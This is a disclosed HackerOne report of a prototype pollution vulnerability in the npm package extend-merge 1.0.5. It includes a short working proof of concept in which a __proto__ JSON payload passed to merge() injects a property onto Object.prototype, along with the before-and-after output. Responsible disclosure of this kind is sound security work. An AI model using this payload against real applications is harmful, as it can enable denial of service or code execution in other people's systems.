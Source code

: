 # [extend-merge] Prototype pollution

## Report Details
- **Report ID**: 878339
- **URL**: https://hackerone.com/reports/878339
- **State**: Closed
- **Severity**: high
- **Submitted**: 2020-05-19T19:34:31.760Z
- **Disclosed**: 2020-09-06T13:00:50.364Z

## Reporter
- **Username**: d3lla
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: nodejs-ecosystem

## Vulnerability Information
I would like to report a `prototype pollution` vulnerability in `extend-merge` module.
It allows an attacker to inject properties on Object.prototype.

# Module

**module name:** `extend-merge`
**version:** `1.0.5`
**npm page:** `https://www.npmjs.com/package/extend-merge`

## Module Description

Shallow extend and deep merge utility function.

## Module Stats

[48] weekly downloads

# Vulnerability

## Vulnerability Description

The `merge` function can be used to add/modify properties of the Object prototype. These properties will be present on all objects.

## Steps To Reproduce:
- install `extend-merge` module:
    - `npm i extend-merge`

Create an object with `__proto__` property and pass it to the `merge` function:
```javascript

const extend_merge = require('extend-merge');
const payload =  JSON.parse('{"__proto__":{"polluted":"yes"}}');
let obj = {};
console.log("Before : " + obj.polluted);
extend_merge.merge({}, payload);
console.log("After : " + obj.polluted);
```
Output:
```console

Before : undefined
After : yes
```
{F835068}

## Supporting Material/References:

- OPERATING SYSTEM VERSION: Ubuntu 18.04.4 LTS
- NODEJS VERSION: v14.1.0
- NPM VERSION: 6.14.5

# Wrap up

- I contacted the maintainer to let them know: [N] 
- I opened an issue in the related repository: [N] 


Thank you for your time.

best regards,

d3lla

## Impact

The impact depends on the application. In some cases it is possible to achieve Denial of service (DoS), Remote Code Execution, Property Injection.

## Attachments
- extend-merge_poc.mov
